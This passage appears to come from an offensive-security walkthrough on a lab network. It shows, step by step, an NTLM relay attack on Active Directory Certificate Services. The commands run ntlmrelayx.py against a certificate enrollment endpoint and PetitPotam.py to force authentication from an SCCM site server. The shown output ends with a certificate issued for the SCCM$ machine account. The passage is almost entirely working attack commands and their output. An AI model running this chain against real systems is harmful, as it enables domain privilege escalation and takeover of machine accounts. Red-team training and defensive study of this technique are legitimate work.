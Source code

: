     ```
    └─# ntlmrelayx.py -t http://ca.internal.lab/certsrv/certfnsh.asp --adcs -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:

    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the cert enrollment service to request a certificate for the coercion target:

    ```
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.9, attacking target http://ca.internal.lab
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://ca.internal.lab as LAB/SCCM$ SUCCEED
    [*] SMBD-Thread-7 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] Generating CSR...
    [*] CSR generated!
    [*] Getting certificate...
    [*] GOT CERTIFICATE! ID 9
    [*] Base64 certificate of user SCCM$:
    MIIQ/QIBAzCCELcGCSqGSIb3DQEHAaCCEKgEghCkMIIQoDCCBtcGCSqGSIb3DQEHB.....
    ```
